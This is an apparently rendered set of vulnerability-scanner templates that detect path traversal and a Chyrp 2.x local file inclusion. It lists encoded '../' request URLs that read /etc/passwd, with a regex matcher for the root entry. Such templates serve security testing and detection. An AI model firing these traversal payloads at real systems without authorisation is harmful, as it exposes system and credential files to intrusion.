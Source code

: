 - {{BaseURL}}/file?filename=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
- {{BaseURL}}/file?name=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc/passwd
- {{BaseURL}}/image?filename=..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/image?name=..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/file?filename=..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/file?name=..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd
- {{BaseURL}}/?q=..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5cetc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:
- part - body

---

# Chyrp 2.x - Local File Inclusion

## Description

- A directory traversal vulnerability in includes/lib/gz.php in Chyrp 2.0 and earlier allows remote attackers to read arbitrary files via a .. (dot dot) in the file parameter, a different vulnerability than CVE-2011-2744.
- severity - high
- tags - cve,cve2011,lfi,chyrp

## Requests

- Method - GET

### URL

- {{BaseURL}}/includes/lib/gz.php?file=/themes/../../../../../../../../../etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**
